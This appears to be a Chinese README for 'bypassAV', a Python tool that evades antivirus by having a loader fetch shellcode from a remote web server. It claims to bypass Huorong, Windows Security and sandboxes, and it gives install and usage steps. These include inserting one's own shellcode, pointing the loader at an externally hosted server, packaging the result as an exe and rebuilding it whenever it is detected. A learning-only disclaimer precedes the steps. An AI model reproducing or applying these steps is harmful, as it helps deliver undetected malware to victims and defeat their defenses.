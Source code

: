 -----

# ！！！声明！！！

本程序仅供于学习交流，请使用者遵守《中华人民共和国网络安全法》，勿将此脚本用于非授权的测试，脚本开发者不负任何连带法律责任。



### 0x01 What is？

> 作用：`python` 免杀 采用外部加载的方式加载 `loader` 和 `shellcode`
>
> 运行环境:  **`Python3`** **`Windows`** 其他环境没测试不清楚
>
> 亲测可过 `火绒` `window安全中心` 其他的自己测试，各大沙箱平台效果也还不错
>
> 默认的 `loader` 只能支持64位的 `shellcode`
>
> 懂代码的 可以自己修改对应的 `loader`

### 0x02 Install

```bash
# 创建一个虚拟环境
cd bypassAV
python -m venv venv
# 激活虚拟环境
venv\Script\active
# 安装依赖
pip install -r requirements.txt
```

### 0x03 Using

```bash
# 1. 到template目录下找到loader.txt 换成自己生成的Shellcode [base64版本]
# 激活虚拟环境
venv\Script\active
# 2.打开make.py最后一行，把url变成你一个对外的web服务
make_result('http://127.0.0.1:8899')
# 3. make.py 116行 就是默认启动本地一个 python web服务 需要自己开启
# os.system('cd %s && python -m http.server %s' % (k8, '8899'))
# 运行脚本
python make.py
# 会生成一个随机文件夹，里面的main.py就是你要的，其他的 .0 .1 .2 就是需要对外的web文件
# 最好是将main.py打包成exe 
# 怎么打包自己研究
# 里面的变量都是随机的，每次被杀了 重新make一份就好了
```
